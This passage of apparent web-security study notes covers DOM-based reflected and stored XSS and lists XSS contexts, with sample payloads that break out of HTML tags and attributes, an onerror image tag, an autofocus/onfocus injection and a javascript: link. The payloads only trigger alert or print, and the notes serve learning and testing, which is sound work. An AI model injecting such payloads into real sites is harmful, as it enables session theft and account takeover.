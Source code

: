 ### <mark style="color:purple;">Reflected/Stored DOM XSS</mark>

If a script reads data from a URL and writes it to a dangerous sink, the vulnerability is client-side with no server processing.

* **Reflected DOM** vulnerabilities happen when the server processes and echoes data from a request, and a script on the page handles this data unsafely, writing it to a dangerous sink.

```javascript
eval('var data = "reflected string"');
```

* In a **stored DOM XSS** vulnerability, the server stores data from one request and includes it in a later response. A script in the later response processes this data unsafely in a sink.

```javascript
element.innerHTML = comment.author
```

## <mark style="color:purple;">XSS contexts</mark>

### <mark style="color:purple;">Between HTML tags</mark>

```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

{% hint style="info" %}
**Note**: understand how a payload works

* `<body onresize="print()">` with this payload (for reflected XSS) you need an exploit server and iframe tag
{% endhint %}

### <mark style="color:purple;">In HTML tag attributes</mark>

* Terminate the attribute value, close the tag, and introduce a new one.

```html
"><script>alert(document.domain)</script>
```

* If angle brackets are blocked or encoded, introduce a new attribute that creates a scriptable context.

```html
" autofocus onfocus=alert(document.domain) x="
```

* If XSS context is into the href attribute of an anchor tag, use the javascript pseudo-protocol to execute script

```html
<a href="javascript:alert(document.domain)">
```
